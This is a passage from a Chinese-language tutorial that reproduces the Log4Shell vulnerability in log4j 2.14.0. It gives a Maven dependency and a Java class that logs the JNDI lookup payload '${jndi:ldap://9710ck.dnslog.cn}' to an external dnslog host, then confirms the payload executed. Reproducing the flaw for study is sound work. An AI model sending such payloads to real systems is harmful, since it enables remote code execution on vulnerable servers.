 使用 IDEA 创建一个 Maven 项目，使用 pom.xml 配置 log4j 2.14.0：

```plain
<dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-web</artifactId>
            <version>2.14.0</version>
        </dependency>
    </dependencies>
```

测试程序：编写一个 Java 测试类，动态传入 logger.error(str) 的字符串参数。

```plain
package org.example;

import org.apache.logging.log4j.*;
import java.lang.String.*;

public class Main {
    public static void main(String[] args) {


        Logger logger = LogManager.getLogger();

        //String poc = "${java:os}";
        String poc = getInput();

        logger.error(poc);

    }

        private static String getInput(){
            return "${jndi:ldap://9710ck.dnslog.cn}";
        }

}
```

运行测试，确认成功执行 payload：

[![](assets/1704273616-a1ea8f7a479e5bb6e800b772fc977db9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103152910-c9165040-aa09-1.png)
